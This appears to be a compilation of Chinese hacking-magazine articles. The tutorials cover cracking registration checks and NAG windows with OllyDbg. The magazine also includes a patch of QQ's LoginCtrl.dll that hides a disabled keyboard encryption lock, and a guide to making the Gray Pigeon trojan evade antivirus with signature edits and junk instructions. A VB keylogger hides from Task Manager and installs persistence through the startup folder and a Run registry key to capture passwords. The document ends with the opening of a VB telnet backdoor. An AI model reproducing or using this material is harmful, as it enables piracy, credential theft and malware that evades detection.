要在代码的海洋中去定位一句代码进而去修改它，是一件很困难的事。所以就必须找到一定的线索，以便我们可以顺藤摸瓜地找到需要寻找的东西。现在的关键问题就在于什么样的信息可以当作线索？如何去寻找这个线索？

#### 1. 什么样的信息可以当作线索？

在注册软件时，如果失败一般会弹出一些类似于“注册失败”“注册码错误”“无效的注册码”的提示信息，注册成功的话则有“注册成功”“注册码正确，感谢使用”这样的成功提示。显然它们都可以作为我们追踪软件注册流程的线索，这里将它们归纳为“注册提示信息”。如果找不到这些经典又明显的线索呢，我们也可以把注意力转移到其他可疑点，如未注册标识、过期警告、次数标识、NAG 对话框等等。

#### 2. 如何去寻找这个线索？

图2

将任意一个软件用 OD 载入，我们有两种方法可以找到这些线索。第一种是在反汇编窗口中单击鼠标右键，在弹出的菜单中，选择“查找”，再点击“所有参考文本字串”（图1）。第二种方法是利用 OD 的插件（新版本的 OD 都会自带这个插件）。依然在反汇编窗口中单击鼠标右键，在弹出的菜单中，选择“Ultra String Reference”或“超级字符串参考”，再点击“Find ASCII”（图2）。

建议使用第2种方法。当选择完后，OD 会来到一个新的窗口（图3）。这里会显示所有找到的字符串，当然“注册提示信息”这些宝贵的线索也一目了然。

找到了线索，那么这一节的主要问题“确定修改的位置”也就可以解决了。本文我来取先实践后总结的方法来给大家解答这个问题。

### 第二部分：动手实践

一下子看了这么多理论介绍，肯定有点厌烦了。现在就来动手实践一下吧。这次我们以一款 Mp3 相关的软件“LRC 傻瓜编辑器”为例。

#### 第一步：初步检测

使用 PEiD 检查一下目标软件（图4），发现软件没有加壳，是使用 Borland Delphi 编写的。

#### 第二步：留心注册提示

先运行一下软件，点第二排的问号图标找到注册窗口（图5），同时我们也看到了没有注册的软件只能使用 15 天。任意输入注册名与注册码，看看有什么结果。发现点击“注册”按钮后没有任何反应。没有了提示信息这可怎么办呢？别着急，想想看，对于错误的注册码程序不做出任何反应，那对于正确的注册码，程序会不会告诉我们已经注册成功呢？让我们试试看吧！

> 提示：现在很多软件都是只有输入正确的注册码才会有明显的提示。如果遇到没有注册错误提示的软件，用错误提示作为线索，也许会更方便。

#### 第三步：找到突破口

使用 OD 打开这个程序，打开字符串参考，虽然内容众多，但是还是让我们找到了要找的东西（图6）。这是什么？啊啊！恰好就是十分经典的注册成功的提示。现在就可以说是“找到线索”了，下一步就是“确定修改的位置”。

#### 第四步：定位修改点

我们把光标定位在有注册成功提示的这一行代码上，然后双击左键就可以来到这个提示对应的代码处（图7）。

为了说明如何定位修改点，我们需要分析一下软件的注册流程。

> **关键词解释：程序的注册流程**  
> 一般来说就是一个真实注册码经过程序的算法，再得到假的注册码，注册码的计算和真假注册码的比较三个部分。

这个软件的注册验证流程是这样的：把我们输入的注册码和正确的注册码进行比较；如果两者不相等就跳向一个地方；如果两者相等就弹出“注册成功”的提示。

> 小编注：软件的注册流程一般有固定的模式，上面的注册流程是作者通过平时积累的经验推断，再加上实际破解后观察代码确定的。对于初学者来说，首先不必太过于关心细节，理解流程、积累经验后慢慢就会掌握这些技术。

注意这里的关键词“跳转”，让我们再来看图7中的代码：

```asm
0047B676  0F85 A0000000   jnz 0047B71C
0047B67C  8B45 FC         mov eax, [ebp-4]
0047B67F  8B80 F4020000   mov eax, [eax+2F4]
0047B685  BA 78B74700     mov edx, 0047B778
```

是不是和我们想象中的流程很符合呢？在“您已经注册”这个提示对应的代码上方有一个跳转“JNZ”，刚好就是“不相等就跳走”的意思，所以这个跳转非常可疑。先把它假设成我们要进行修改的位置。在这行代码处右键打开“汇编”功能（也可以直接双击），将“JNZ”改成“JZ”，也就是把“不相等就跳走”的指令改成了“相等就跳走”，如图8。

再思考一下刚才提到的注册流程，如果我们找到的这个跳转就是要进行修改的位置，那么我们任意错误的注册码就会提示注册成功，反而输入正确的注册码要没有反应了！是不是很有意思呢？

修改完毕后，保存我们修改后的文件（小编：保存方法前文介绍过）。选中被修改过的代码，右键选择“复制到可执行文件”，再在弹出的新窗口中保存到文件即可（如图9）。运行修改后的软件，打开注册窗口，任意输入注册信息后看到“注册成功”了，如图10。这证明我们进行的“寻找线索”“确定修改位置”“修改”的方法是正确的。

通过这个实例，我们大概了解了如何定位“修改位置”。一般来说在“注册成功”“注册码错误”这些提示对应的代码向上不远处就应该可以看到条件转移语句如 JZ、JNZ、JLE 等。而这些跳转很有可能就是我们需要进行修改的跳转，也就是破解迷们常说的“关键跳”。修改了这类跳转一般就可以达到我们的目的了。

当然，事实上只有极少极少的软件只修改注册判断就能成功破解。所以我们要把更多的注意力转到其他的可疑点，如未注册标识、过期警告、次数标识、NAG 对话框……熟练使用各种工具的搜索功能，找到这些线索后再向上不远处找条件转移语句就行了。

### 第三部分：确定了修改的位置怎样去修改

在实例中我们选择把 JNZ 这个跳转改成了 JZ，即把“不相等就跳”改成了“相等就跳”，达到了我们的破解目的。那么对于别的软件，修改跳转语句都有什么常用的方法呢？一般情况下我们要根据不同情况做不同处理，对于初学者来说，掌握下面的修改方法就足够了。

- **如果不需要跳转**：把 JE/JNE、JZ/JNZ 这类跳转语句改成 `NOP`，程序不会再进行条件判断，会无条件执行后面的语句。
- **需要跳转**：把 JE、JZ 这类跳转改成 `JMP`，这样不论程序作出何种判断，都会执行同样的动作。

### 第四部分：从注册流程看爆破原理

为什么要这样修改呢？要回答这个问题就要从程序的注册流程开始说起。一般软件的注册流程就是：收集注册信息 -> 计算真正的注册码 -> 计算出的注册码与输入的注册码比较。

- 如果我们输入的注册码与程序计算出的注册码相等，程序就会执行相应的代码。
- 如果我们输入的注册码与程序计算出的注册码不相等，程序就会执行另一些代码。

到这里情况就较为明确了。我们可以做一个推断：正常情况下程序会这样运行——两个注册码相等（汇编指令：JZ 和 JE）就提示“注册成功”；两个注册码不相等（汇编指令：JNZ 和 JNE）就提示“注册失败”。例如“A = 我们输入的注册码”“B = 程序计算出的真正注册码”，现在判断 A 与 B 的值（CMP A, B），对判断的结果分情况处理。

（2）不等的情况：**JNE/JNZ**，“注册失败”。

而如果换了我们修改后的程序，其运行情况就发生变化了。还是先比较两个注册码 `CMP A, B`，把跳转指令改反（`JE` 改 `JNE`，`JZ` 改 `JNZ`，反之亦然），那么程序的流程就会变成：如果输入的注册码不正确，程序就会提示我们“注册成功”；如果输入的注册码正确，程序就会提示我们“注册失败”。

此时，我们随便输入一些东西，都会注册成功。这样我们的目的就达到了，不过它也有一个小小的问题：如果你足够幸运，任意输入的东西恰好与真正的注册码相等，程序反而会提示“注册失败”。所以这样修改显得多少不够完美。

再想想我们学过的汇编指令和上文说到的修改方法，一条指令突然出现在眼前——那就是无敌的 `JMP`（无条件跳转）指令。

> **关键字解释：无条件跳转指令 JMP**  
> 当程序执行到 `JMP` 指令时，不做任何判断便跳到指定的地方继续执行。

在示例中把 `CMP A, B` 后的 `JE/JZ`“注册成功”修改成 `JMP`“注册成功”。呵呵，现在不管我们输入的注册码正确不正确，程序都会提示我们“注册成功”，破解就算比较完美了！

### 总结

到这里，就可以提出一个概念了——暴力破解。不论如何去修改，我们的核心思想都是强行修改程序的运行流程，以达到破解的目的。这也就是常说的爆破。后文将继续探究爆破在解密功能、次数、时间限制等方面的具体应用。（文中涉及到的工具 QQ 和相关软件已收录到光盘中。）

> **小编点评**  
> 上期从零开始学破解系列推出后，本文受到了大量读者好评……随着学习深入，难度会逐渐加大。想学好破解需要自觉学习汇编知识；编辑部也会尽量沟通，继续把难度控制在新手可接受的范围，让更多读者一起走进破解领域。

## 无限泄密术 QQ 键盘加密锁

——姜超

在 QQ 的安装目录下我们会找到一个叫做 `npkcrypt.sys` 的文件，它就是 QQ 的键盘加密锁，作用是一定程度上保护我们输入的 QQ 不被盗走。如果对它进行破坏或删除，那么 QQ 密码框的加密功能将会失效，界面上会出现锁头打叉（图1），说明加密功能不可用。

QQ 在进步，而 QQ 的盗号木马也在进步！于是更具隐蔽性的木马诞生了，它们可以通过修改 QQ `LoginCtrl.dll` 文件来绕过键盘加密锁，并伪装成正常显示。这种情况下我们就很难判断 QQ 是否中了木马。那么，这种技术到底是如何实现的呢？下面就听我一道来。

我们以 QQ2006 beta2 为例，使用的工具为 OllyICE，必须使用 OllyICE 而不能使用 OD，因为打不开 dll 文件。

目前许多新出的 QQ 盗号程序都可以破坏 `npkcrypt.sys` 文件。自己的 QQ 密码框里的锁头居然变成了小红叉，别说是菜鸟了，即便是老鸟也会怀疑自己的电脑感染了 QQ 盗号木马。

## 测试步骤如下：

- 1. 为了让效果明显，我们首先把 `npkcrypt.sys` 文件移除到 QQ 目录外。现在 QQ 键盘加密锁启动失败了，然后关闭所有正在运行的 QQ。
- 2. 打开 OllyICE，然后加载 QQ 目录下的 `LoginCtrl.dll` 文件，这时会出现如图2所示的对话框，我们选择“是”即可。
- 3. 在 OllyICE 上点击鼠标右键，选择“查找”→“当前模块中的名称（标签）”，如图3。
- 4. 在图4中我们用鼠标单击选中地址 `60A466E4` 区段=`.rdata` 类型=输入 名称=`npkcntc.#1` 这一行，然后回车，就会进入如图5所示的界面。
- 5. 选中图5中的那一行，回车，就会跳到如下代码区域：


```asm
60A3F9A2  E8 4F1A0000      CALL ...
60A3F9A7  59               POP ECX
60A3F9A8  8BCE             MOV ECX,ESI
60A3F9AA  E8 49050000      CALL LoginCtr.60A3FEF8
60A3F9AF  85C0             TEST EAX,EAX
60A3F9B1  74 0C            JE SHORT LoginCtr.60A3F9BF
60A3F9B3  FF15 E466A460    CALL DWORD PTR DS:[<&npkcntc.#1>]
...
```


大家注意上面代码中的 `60A3F9AA  E8 49050000  CALL LoginCtr.60A3FEF8` 这一行，它的作用是检查 `npkcrypt.sys` 这个加密锁文件是否存在。判断后，会跳到 `60A3F9B1  74 0C  JE SHORT LoginCtr.60A3F9BF` 处继续判断如果存在会怎么样。我们把 JE 改成 JNE，也就是让它判断为不存在，如图6。

- 6. 选中 `60A3F9C5  /0F8E 88000000  JLE LoginCtr.60A3FA53` 这一行，然后回车，这时会跳到以下代码区域：

```asm
60A3FA53  FF15 ...         CALL DWORD PTR DS:[<&KERNEL32.GetLastError>]
60A3FA59  E8 401A0000      CALL ...AfxGetModuleStat
60A3FA5E  8B40 0C          MOV EAX,DWORD PTR DS:[EAX+C]
60A3FA61  57               PUSH EDI
60A3FA62  6A 0C            PUSH 0C
60A3FA64  6A 0C            PUSH 0C
60A3FA66  6A 01            PUSH 1
...
60A3FAAE  FF15 ...         CALL DWORD PTR DS:[<&USER32.LoadImageA>]
60A3FAB2  50               PUSH EAX
```

我们把 `60A3FA68. 68 C23E0000 PUSH 3EC2`，`ResourceName = 3EC2` 这行的“3EC2”改成“3EC1”，意思就是加密显示正确的名字。

- 7. 接着往下走，找到 `60A3FA86. 68 9F0B0000 PUSH 0B9F` 这行，这里的“0B9F”是键盘加密失败的字符资源。如果想改成成功的话，就应该把“0B9F”改成“0B9E”。
- 8. 最后点鼠标右键，选择“复制到可执行文件”→“所有修改”，如图7。
- 9. 这时会弹出如图8所示的窗口，我们点击“全部复制”。
- 10. 最后选择“保存文件”，把默认的 `LoginCtrl.dll` 覆盖即可。


都保存完毕后，我们再次打开 QQ，会发现 QQ 启动窗口的金锁头又神奇般地亮起来了，和未删除 `npkcrypt.sys` 文件前的效果一样。就这样，我们成功地把 QQ 密码加密锁绕过去了。最后我从回收站里将 `npkcrypt.sys` 文件又恢复了过去，不过此时的 `npkcrypt.sys` 文件已经没有用了，只是摆个样子而已。

所谓道高一尺，魔高一丈。QQ 利用密码加密的方法来躲过盗号程序，盗号程序也同样可以想出破解的办法来还以颜色。目前比较隐蔽的 QQ 木马“啊虎”用的就是此技术。本文只是演示了这些密码程序的修改原理，大家切勿用于非法途径。（文中涉及到的工具 OllyICE 已经收录于光盘中）

## 从零开始学破解之（三）


### 前言

在前两期文章中，我们对于暴力破解的原理、步骤和常用方法都有了一个比较清晰的认识，并在实践中体验到了爆破的威力。其实，爆破虽然算是一种低级的方法，高手们往往对其嗤之以鼻，但是从爆破的实用性和效率来看，这么简单又实用的方法还是值得我们小菜好好学习的。

根据上一篇文章给大家留下的悬念，在这篇文章中我们将教会大家通过爆破的方法解除软件的各种使用限制，从另一个角度来体会暴力破解的魅力所在。

如果我们不是注册用户，就不能使用该软件的全部功能，比如：不能保存软件设置、不能处理多个文件、不能使用高级功能等等。

对于有功能限制的软件破解，我们必须了解到软件在使用功能上都有什么限制，把这些限制作为突破口，细心地观察和结合仔细地寻找才能解决。这要根据被限制功能的多少来确定破解的工作量，破解的难度自然要稍高一些了。

除了以上三种方法外，还有诸如时间限制之类的保护手段，我们会在以后一些学习中讲到，这里就不再赘述了。

### 第一部分：理论篇

一般来说，软件作者为了保护自己的利益，经常会采取一些手段来限制没有注册的用户。如果用户想正常地使用该软件或者使用软件的全部功能，就要给软件作者支付一定的费用。在各种软件保护的手段中，以下三种是最为常见的。

#### 1. NAG窗口

所谓 NAG 就是“烦人”的意思，顾名思义 NAG 窗口就是在软件使用过程中不时弹出一个要求我们注册的窗口，软件作者希望用户经受不住这个 NAG 窗口的骚扰，从而购买软件。这是比较简单的一种手段，所以也很容易被我们破解掉。

#### 2. 次数限制

“次数限制”就是软件作者在软件的使用次数上作出的限制，软件界面上往往会有明显的提示内容“本软件只能使用 XX 次”。限制次数的软件往往在功能和使用过程中不会再出现明显的限制，但一个软件只能使用几次还是挺让人郁闷的，因此我们还是希望可以破解它！破解次数限制的方法也比较多，可以修改跳转让软件跳过对使用次数的检查、增大限制的次数使软件可以使用成千上万次等等。

#### 3. 功能限制

### 第二部分：实践篇

当我们了解了常用的保护方法，就可以针对具体问题使用具体的解决办法了。路要一步一步走，饭要一口一口吃，这些限制我们一个一个学习如何破解。今天我们以一个 CRACKME 为例，来说明一下如何去除软件的“NAG窗口”。

> **小提示：什么叫 CRACKME**  
> CRACKME 就像是一些破解爱好者编写的用来练习破解技术的一个程序。不同难度的 CRACKME 面向不同水平的学习对象，有的用来练习暴力破解，有的用来练习制作内存注册码，也有的用来练习分析算法的等等。

先运行一下这个 CRACKME 看看，结果如图1。一运行就弹出一个窗口，是不是和有些软件一个样呢？细心一点，留心一下这个窗口的内容：“keygenme and delete this window good luck !!!”。把它记下来会对我们下面的工作有很大的帮助。


开始去除这个讨厌的 NAG 窗口，首先要用 OD 载入它，如图2（如果经常使用 OllyDbg，我们可以在主窗口的菜单栏里的“选项”中，选择“添加到资源管理器右键菜单”，这样以后要载入某个程序的时候就方便多了，右键，再选择“使用 OllyDbg 打开”就能够将程序载入 OD 了）。

在 OD 中单击右键，选择“Ultra String Reference”或“超级字符串参考”中的“1. Find ASCII”，在这里程序所包含的所有字符串一览无遗，如图3。

找到“keygenme and delete this window good luck !!!”后双击这个字符串，来到了它在程序中对应的位置，如图4（至于为什么要找这个字符串，请复习上一篇文章中的如何确定爆破突破口的有关内容）。

现在我们有两种方法来解决掉那个 NAG 窗口。

#### 一、修改跳转法

##### 1. 简单原理介绍

把这段代码提取出来如下：


```asm
0040821C  6A 40           PUSH 40
0040821E  68 4C824000     PUSH Keygen.[rules]
00408223  68 54824000     PUSH Keygen.[keygenme and delete this window good luck !!!]
00408228  6A 00           PUSH 0
0040822A  E8 41C4FFFF     CALL <JMP.&user32.MessageBoxA>
0040822F  68 047F4000     PUSH Keygen.00407F04
```

程序运行的时候是一步一步按顺序执行这些代码的。当程序执行到 `0040822A  E8 41C4FFFF  CALL <JMP.&user32.MessageBoxA>` 这句代码时，它告诉计算机现在跳到一个可以弹对话框的地方去执行，于是大家就看到了那个令人讨厌的 NAG。

> 小提示：上面的说法是为了方便大家理解原理，可能会不太准确。想了解更详细的内容，可去查阅一下 MessageBoxA 这个函数的相关知识。


现在大家是不是有一点思路了？想想看，只有遇到 `CALL <JMP.&user32.MessageBoxA>` 的时候，程序才会弹出一个窗口。那么如果程序在运行时碰不到这段代码不就行了？

没错！这就是“修改跳转法”的原理。

##### 2. 实际操作

让大家了解了原理，下面就该给大家说说具体如何去做了。我们双击下面这句代码 `0040822A  E8 41C4FFFF  CALL <JMP.&user32.MessageBoxA>`，把它修改成 `JMP SHORT 0040822F`（注意保留默认的“用 NOP 填充”），然后选中被修改过的代码，右键，“复制到可执行文件”→“选择”，跳出个新的窗口，继续右键，“保存文件”为 keygen2.exe。运行看看，那个 NAG 窗口是不是已经不见了呢？

> 小提示：为什么要修改成 `JMP SHORT 0040822F`？  
> 还记得 JMP 是无条件跳转吧？JMP SHORT 则是短程跳转。原来机器按顺序执行指令，执行到 B 是弹窗代码；现在把 B 修改为跳转到 C 继续执行即可。C 的地址正好是 `0040822F`，因此 B 处应改为 `JMP 0040822F`。OllyICE 会自动把代码优化为 `JMP SHORT 0040822F`。

## 二、NOP法

提起 NOP 这个汇编命令，看过之前文章的朋友应该还记得它的作用吧？NOP 代表啥也不干。那么回到刚才的比方中，ABCD……顺序执行命令，B 是弹对话框的指令，如果把 B 替换成 NOP，那么 A 执行完了之后，是不是就啥也不干一直继续执行到 C 呢？这样程序不会出错，而且也一样可以去除那个讨厌的 NAG。

```asm
0040822A  E8 41C4FFFF  CALL <JMP.&user32.MessageBoxA>
0040822A  90            NOP
```

同样，在这里要记得保留默认的“使用 NOP 填充”的小勾。改完之后，使用同样的方法把文件另存为 keygen3.exe。运行下看看，NAG 弹窗果然消失了，成功了！

### 总结

这一堂课我们介绍了软件常用的保护方式，并且着重介绍了对于 NAG 窗口这种保护手段的破解方法。需要特别指出的是，尽管在文中可以看出 NOP 法似乎更为简便，其实两种方法各有所长，适用于不同的情况。所以学习的时候不要拘泥于一种方法，或者只学一种方法。否则到了一些特定情况下，破解的思维就容易被限制住。

这次的学习就到这里，其实我提供的 CRACKME 还有更多的玩法，有兴趣的朋友可以试试暴力破解，做个注册码来验证一下前两节课的学习功力，也可以到网上搜一些简单的 CRACKME 来玩玩。在下一篇文章中我们将着重介绍“软件功能限制”这种保护手段的破解方法。

> X小编点评：  
> 这一篇文章相比如前两篇来说基本上没有增加汇编语言的知识，也算是延续了小编的意愿，始终把难度控制在初学者可接受的范围之内；但是文效会大拿一些破解的软件拿出来试试，不知道有没有读者能把连续三期破解连载看下来，自己已经进入了破解的门槛了？因为已经有读者在反馈的私信里找我催未来动态破解了。当然了，结果是大叔改了半年总结的实战中所遇到的问题可不是两三篇文章能够讲清楚的，还是那句老话：万丈高楼平地起，一步一个脚印打好基础，再学好汇编，成功离大家不远了。

（文章中涉及到的 OllyICE 和 CRACKME 已收录到光盘中）


## 菜鸟也能打造属于自己的花指令

人鱼姬

免杀是非常实用的一门黑客技术，尤其是木马和后门的免杀，更是小菜们特别想学的。在平时的入侵和留后门的过程中，我们头疼的往往不是没有相应的工具，而是没有属于自己的免杀“黑阱”！眼巴巴地看着各大网站和高手们发布一个所谓的“免杀工具”，不到一星期，几乎所有的杀毒软件都把它列入黑名单了。公开的东西就等于被杀的东西！自己动手，才能丰衣足食！所以菜鸟们更要奋发图强，自己熟练地掌握好免杀技术！

在06年第9期的X档案里，已经登了一篇关于免杀的专题文章了，今天我将给大家谈谈我在制作免杀上的一些经验。制作免杀的时候，我喜欢只针对诺顿和卡巴斯基这两个杀毒软件制作免杀，个人认为这两个杀毒软件是世界上最好的（不是我不支持国货，的确是咱们技不如人）。

> 关键词解释：什么是特征码  
> 杀毒软件在对文件进行查杀的时候，会挑选文件内部的一段或几句代码来作为识别病毒的标准。这种代码就叫做病毒的特征码。如果我们将这个代码更改或者修改，就会使得杀毒软件误识别不出病毒，从而达到免杀的效果。

### 二、加花指令让卡巴不再尖叫

卡巴免杀的方法与诺顿免杀的方法截然不同，当前最好最简单的方法就是加花指令。这要求有汇编语言的基础，这样才能写出好的花指令。好在现在有各式各样的加花器，菜鸟们无需掌握汇编语言也可以轻松加花了。但是问题又出来了，刚出的加花器用过一段时间就不能免杀了，因为杀毒软件会加入针对这种的病毒定义。下面介绍一种方法，让每个菜鸟都拥有属于自己的花指令。

### 一、修改特征码轻松过诺顿

我记得以前对付诺顿很容易，随便加个壳就免杀了，但不知什么时候开始加壳已不能解决问题了。好在我们有别的办法，只需用类似于 MYCCL 的软件复合定位一下特征码就行了。虽然说过程麻烦了一点，不过为了做出一个免杀的木马还是值得的。最后我们就可以找到几处长度为两字节的特征码，将其逐一作适当修改就行了（一般是将小写改为大写就行了）。以下就是我的灰鸽子的特征码（物理地址/物理长度）：

- 【特征】00069415,00000002
- 【特征】000A15B8,00000002
- 【特征】000A15DE,00000002
- 【特征】000B90D3,00000002

其中一处就是将小写的 n 改为大写的 N，如图1中标记处。这方面的介绍在网上比较多，我不想重复。下面才是本文的重点。


于自己的花指令。

> **关键词解释：什么是花指令**  
> 正常运行的程序，遵循编译器加入花指令的程序，会先运行一些没有意义的代码（花指令），然后跳回正常的程序入口继续运行。不过这样改造后的程序可能会让杀毒软件无法识别，达到免杀的效果。


如图2所示的“花花添加器”就是一款不错的加花工具，我一度用它制作了很多卡巴免杀的黑客工具。但是不久之后免杀就失效了，这着实令我苦恼了一阵子。后来想了下，如果我们把它做出来的花指令稍微做一点改动，不就成“未公布”的花指令吗？这里找一个被杀的灰鸽子给大家演示一下，如图3。

首先，使用加花器打开这个鸽子，任选一种花指令，单击“加花”按钮，成功给鸽子化好妆。不过前面讲过了，因为这个加花器公布很久了，加花之后的鸽子还是逃不出卡巴大叔的法眼。那么我们就用 OllyDbg 打开它看看，如图4。

首先需要明确的是，从入口点开始相当长的部分都是刚才加花器加上的花指令。在本例中我们只需注意前三行：


```asm
nop
xchg eax, ebx
nop
```

现在把它改一下：

```asm
push ebx
pop ebx
xchg eax, ebx
```

> **小编：为了照顾菜鸟，这里解释一下基本的汇编指令的意思。**nop 表示什么也不做，xchg 表示后面两个寄存器的值互换，push 是把一个值压栈，pop 则把它弹出栈。

修改前后对于程序的运行是没有影响的，无非就是多对 ebx 进行了先压栈再出栈的操作。但是意义上就有重大变化了！修改之前花指令是别人的、公开的；修改之后这就变成你自己的了。这是世界上独一无二的花指令，完全是你个人修改的成果，如图5。

选中修改过的那三行，右键选择“复制到可执行文件”，在弹出的界面上点击“保存文件”，如图6、图7。扫描一下修改后的文件，免杀了！用虚拟机运行，也可以上线了，如图8、图9。


### 三、打造属于自己的花指令

实际上，修改别人的花指令的方法是很灵活的，不要拘泥于我介绍的方法。如果你的汇编水平高，就可以在别人的花指令的基础上多做一些跳转以及与、或、非的计算。如果你是菜鸟，那你也能注意到别人的花指令里有许多 nop 吧？将它们改成反复的压栈和出栈，或者改变一下位置、变换一下顺序，都能达到免杀的目的，比如：

```asm
push eax
pop eax
push eax
pop eax

或

push eax
pop eax
push eax
pop eax

或

push eax
pop eax
push ebx
pop ebx

或

push eax
push ebx
pop ebx
pop eax
```

这些都是一些无实质意义的操作，加多少都无所谓。大家很容易就会拥有自己的花指令。最后我想说的是，杀毒软件终究只是个软件，它不会联想，稍微做一些变化它就认不出病毒了，软件最后还是斗不过人的。免杀，有时候就是这么简单。

> **小编注：**  
> 这些修改说白了就是拿 eax 和 ebx 反复地 push 再 pop，简单却有效。此外，我也教大家 2 个：`add eax, 1 / add eax, 1`，或者 `add ebx, 1 / sub eax, 1`。总之花指令的一个重要思想就是扰动平衡，比如 push 和 pop 相抵消，add 和 sub 相抵消，在代码中间再穿插一些 nop 来打乱顺序，就足以让你的花指令“独具一格”了。

### 四、总结

依据笔者的习惯，一般只需先对木马进行糊涂免杀（即改复合特征码），再进行卡巴免杀（即加花指令），最后再加个壳压缩一下文件的体积，就得到了自己的个人版免杀木马。只要你不把这个木马发布出去，那就压根不用担心哪天杀毒软件会专门来针对你的木马更新病毒定义了。最后希望大家不要用木马做坏事，毕竟做坏事不是黑客精神的真谛，再说这种事也是不符合八荣八耻的。

> **小编点评：**  
> 这篇文章在有汇编基础的读者眼中应该是简单不过了，一共做起来也就使用到几句汇编指令。可是对于没有基础的读者而言，篇幅过长，推荐想学习免杀的朋友多看免杀类的动感教程。这篇文章作者就为大家做了一个动感教程详解的记录与全过程。而作者没有详细提及的复合特征码免杀技术，我们也为读者搜集了一个相关教程放到光盘里了。但是在看教程的前提下，我仍然希望大家首先能学习一些汇编知识，从原理上理解技术，才能够真正掌握它！

（文章中涉及到的工具 MYCCL、花花添加器、OllyDbg、C32asm 以及制作好的录像文件已经收录于光盘中）

## 黑客术语小论坛

### 什么是批处理？

批处理可以从字面意思上来理解为批量处理并执行命令。平时我们在 CMD 下执行命令要一句一句地敲，有时候会觉得这是一个重复而且枯燥的工作；我们可以把想要执行的很多命令写在一个文本文档里，然后把扩展名改为 .BAT 或者 .CMD，然后双击运行，系统就会自动依次执行我们写的命令了。

BAT（CMD）文件就被称为批处理文件。当然，微软的批处理还加入了大量的控制语句，以方便人们更高效地执行命令。大家可以把以下内容保存为 `1.bat` 后双击查看效果。

- `@echo` 执行第一个语句，接下来执行的命令是查看本机 IP 地址
- `@ipconfig`
- `@echo` 接下来会暂停，按任意键退出 CMD
- `@pause`

## 打造自己的黑客器——键盘记录器

看过很多期的黑客 X 档案，里面有很多程序都是使用 VB 编写的，说明现在很多刚入门的读者都喜欢 VB。虽然 VB 有很多缺点，如 API 声明过于繁琐，程序运行还需要 VB 运行库的支持，但它简单易学，很适合编程初学者。首先分析一下 keylogger，它至少应该有两个功能：一、记录键盘、鼠标（这个一般没必要记录）的操作；二、记录当前活动的窗口，否则谁知道你记录的东西是在哪个程序中的。分析完了功能，我们就要考虑如何实现了，这个程序主要是利用 GetAsyncKeyState 函数，使用 GetAsyncKeyState 可以获得键盘的动作。

GetAsyncKeyState 函数根据虚拟键表判断按键的类型，返回值为一个 16 位的二进制数，如果被按下则最高位为 1。下面是 API 函数 GetAsyncKeyState 的声明：`Private Declare Function GetAsyncKeyState Lib "user32" (ByVal vKey As Long) As Integer`，详细使用请查看 MSDN。函数就先介绍这么多，我们把需要的控件列出来：

- text1、text2：用来保存测试结果
- timer1：不断扫描，实现对键盘的记录操作
- timer2：用来定时保存到文件

好了，下面我们就其主要功能编程来实现。记录键盘的目的是获取被监控者在做什么及密码和隐私，当然这就需要知道对方是在什么程序下操作的，否则的话，记录的只是一堆很难分析的字符，所以我们需要获知当前用户的活动窗口。实现代码如下：

```vb
Dim keystate As Long
Dim Shift As Long
Shift = Getasynckeystate(vbKeyShift)
keystate = Getasynckeystate(vbKeyA)

' 对大小写进行记录
If (CAPSLOCKON = True And Shift = 0 And (keystate And &H1) = &H1) Or _
   (CAPSLOCKON = False And Shift <> 0 And (keystate And &H1) = &H1) Then
    Text1 = Text1 + "A"
End If

' 对数字键的记录
keystate = Getasynckeystate(vbKey1)
If Shift = 0 And (keystate And &H1) = &H1 Then
    Text1 = Text1 + "1"
End If
If Shift <> 0 And (keystate And &H1) = &H1 Then
    Text1 = Text1 + "!"
End If

End Sub
```

```vb
Private Sub Form_Load()
    ' 使程序不在任务管理器中显示
    App.TaskVisible = False
    ' 防止重复运行
    If App.PrevInstance Then End
    ' 获得当前活动窗口
    currentwindow = GetCaption(GetForegroundWindow)
End Sub

Private Sub Timer1_Timer()
    ' 检测当前活动窗口是否已经改变
    If currentwindow <> GetCaption(GetForegroundWindow) Then
        currentwindow = GetCaption(GetForegroundWindow)
    End If
End Sub
```

我们获得了当前窗口的标题，下一步就是要进行键盘记录操作了。

实现了键盘记录后，我们就要实现定时将记录的内容保存到记录文件中，以实现在本地查看或发送到指定的邮箱。

```vb
Private Sub Timer2_Timer()
    ' 每隔半分钟检测一次
    ' 将键盘记录追加到记录中（可在此加入加密函数）
    Open logfile For Append As #1
    Write #1, Text1
    Close #1

    ' 清空已记录值，重新接受记录
    Text2.Text = Text2.Text + Text1.Text
    Text1.Text = ""
End Sub
```

为了让我们的程序能长久地为我们服务，我们还需要让它实现自启动。在这个功能上，我不仅修改了注册表，还把自身复制到启动文件和系统目录。代码如下：

```vb
Dim mypath As String
Dim r As Long
Dim keyhand As Long
Dim regpath As String
regpath = systempath & "\\loger.exe"

' 获得当前窗口
currentwindow = GetCaption(GetForegroundWindow)
mypath = App.Path & "\\" & App.EXEName & ".exe"

' 拷贝到系统目录和启动
FileCopy mypath, regpath
If App.EXEName <> "log" Then
    FileCopy mypath, Left(systempath, 3) & "Documents and Settings\\All Users\\开始菜单\\程序\\启动\\log.exe"
End If
```

```vb
' 修改注册表以使程序每次启动自动运行
r = RegCreateKey(HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", keyhand)
r = RegSetValueEx(keyhand, "sysin", 0, REG_SZ, ByVal regpath, Len(regpath))
r = RegCloseKey(keyhand)
```

至此，其中主要功能都实现了。看完本文后大家是不是发现编写键盘记录器很简单！本文只是简单实现其主要功能，在此基础上大家可以给它加上邮件发送功能，或者把它集成到自己的后门上，那我们的程序就更有威力了。（本文涉及到的程序完整源代码及编译好的程序，已收录于光盘中）

## VB编程之 TELNET 后门的初步实现

eighteen

对于 TELNET 后门，我们通常是使用 VC 来编写的，网上也有许多相关的 TELNET 后门源码。但是相信看黑客 X 档案的读者一定有不少是喜欢使用 VB 来编写程序的吧。纵然编写 TELNET 后门不是 VB 的长项，但这并不难实现。在网上我并没有发现使用 VB 编写 TELNET 后门的文章，所以本文由此诞生。

确切地说，这不是一个真正的后门，只是一个后门的基本模型，甚至可以说是毛坯。BUG 的修改、不足的修补、功能的扩充还需要读者动手来实现。

首先，我们在大脑里想象出一个后门运行的过程，或者把其大概的流程画出来，然后就按照这个过程逐步来实现。好了，下面就开始我们的后门编写之路。首先就是当程序运行时防止另一个程序的运行，实现代码如下：

```vb
Private Sub Form_Load()
sys.path = systempath()
' 防止多个程序运行
If App.PrevInstance Then
    End
End If
cmdno = True
' 使程序不在任务管理器中显示
App.TaskVisible = False
' 监听端口5212
Winsock1.LocalPort = 5212
Winsock1.Listen
End Sub
```

